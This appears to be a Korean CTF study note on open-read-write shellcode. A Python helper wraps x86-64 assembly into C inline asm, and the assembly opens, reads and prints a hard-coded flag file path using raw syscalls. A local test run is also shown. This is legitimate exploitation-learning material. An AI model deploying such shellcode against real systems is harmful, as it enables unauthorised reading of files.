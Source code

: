 ```
int main() { run_sh(); }
```
    
```sh
echo 'flag{this_is_open_read_write_shellcode!}' > /tmp/flag

$ gcc -o orw orw.c -masm=intel
$ ./orw
flag{this_is_open_read_write_shellcode!}
```



# 쉘코드 to .asm
```python
def assembly_to_c_format(assembly_code):
    formatted_code = "__asm__(\n"
    formatted_code += '    ".global run_sh\\n"\n'
    formatted_code += '    "run_sh:\\n"\n\n'

    for line in assembly_code.strip().split("\n"):
        formatted_code += f'    "{line}\\n"\n'

    formatted_code += '    "\\n"\n'  # Separate syscall lines
    formatted_code += '    "xor rdi, rdi"\n'
    formatted_code += '    "mov rax, 0x3c"\n'
    formatted_code += '    "syscall");\n\n'

    formatted_code += "void run_sh();\n\n"
    formatted_code += "int main() { run_sh(); }\n"

    return formatted_code


assembly_code = """
push 0x00
push 0x676E6F6F6F6F6F6F
push 0x6C5F73695F656D61
push 0x6E5F67616C662F63
push 0x697361625F6C6C65
push 0x68732F656D6F682F
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

mov rdi, rax
mov rsi, rsp
sub rsi, 0x30
mov rdx, 0x30
mov rax, 0x0
syscall

mov rdi, 1
mov rax, 0x1
syscall
"""

formatted_code = assembly_to_c_format(assembly_code)
print(formatted_code)

```
